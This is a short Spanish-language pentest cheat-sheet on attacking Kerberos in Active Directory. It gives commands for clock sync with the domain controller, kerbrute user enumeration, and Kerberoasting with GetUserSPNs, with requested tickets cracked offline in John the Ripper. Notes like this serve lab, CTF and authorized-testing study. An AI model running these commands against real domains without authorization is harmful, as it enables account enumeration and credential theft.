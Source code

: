 # Kerberos 

Tags: #Kerberos #AD #Windows 

Este es el puerto para Kerberos, que es el protocolo de autenticación predeterminado usado en AD. Kerberos es vital para el proceso de inicio de sesión y la concesión de tickets de acceso.
## Sincronizar el reloj 

```bash 
Nota: Antes de iniciar al ataque debemos de sincronizar el reloj de la maquina de atacante con el AD

❯ ntpdate IP     # Sincronizar el reloj 

	# IP = Dirección IP del DC

❯ date -s "2025-01-04 15:30:00"   # Restablecer la fecha y hora
```

## Kerbrute 

```bash 
❯ git clone https://github.com/ropnop/kerbrute           # Descargar la herramienta
❯ go build .                                             # Entrar al dir 'kerbrute' y compilarlo 
```

```bash 
❯ kerbrute userenum -d domain1.corp --dc IP user.txt   # Enumerar y verificar usuarios validos en el dominio 


Nota: Si el usuario no cuenta con autenticacion previa de Kerberos, la herramienta arroja el TGT (hash) y este se puede crackear offline con 'John The Ripper'
```

```bash 
❯ GetUsersSPNs domain1.corp/user:password            # Verificar si el DC es kerberostable en algún usuario

❯ GetUsersSPNs domain1.corp/user:password -request   # Solicitar un TGS y en offline crackearlo con John 
```
